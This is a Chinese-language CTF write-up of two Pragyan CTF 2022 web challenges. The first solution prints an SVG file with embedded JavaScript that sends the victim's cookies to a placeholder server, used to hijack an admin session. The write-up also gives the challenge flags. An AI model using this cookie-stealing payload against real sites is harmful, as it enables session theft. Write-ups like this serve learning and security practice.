﻿---
title: Pragyan CTF 2022
categories: 赛题wp
---



![image-20220323204158108](https://img-blog.csdnimg.cn/img_convert/dfc04e6e850b373d39a20c1372c6325f.png)





# Excess Cookie V1

- svg xss

题目要求admin登录，个人中心可以上传头像，有搜索功能，可以根据用户的UUID进行查询，然后展示个人的页面，包括头像，UUID不可爆破，报告页面回显报告admin，所以思路就是xss打admin



![image-20220306223525870](https://img-blog.csdnimg.cn/img_convert/c25bd05ba194c49d6c378422f839c806.png)

测试发现可以上传svg，造成xss，直接打cookie

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    window.open('http://vps/'+document.cookie);
    //fetch('http://<your-public-IP>?c='+document.cookie);
  </script>
</svg>
```



![image-20220306223442579](https://img-blog.csdnimg.cn/img_convert/14b3784e07963750cf40f1ace5886ddc.png)

替换cookie，admin登录

FLAG：p_ctf{x33_a4d_svg_m4k3s_b3st_p41r}

# Excess Cookie V2

- http-only

题目说是修复非预期，明明这题才是非预期

直接拿上面那题的admin的UUID直接去搜索，回显flag

![image-20220306224948051](https://img-blog.csdnimg.cn/img_convert/a22c4fc1cfd9d53fb558b022e0ed5004.png)

预期就是绕HTTP-only，vps接受发过来的信息就行了
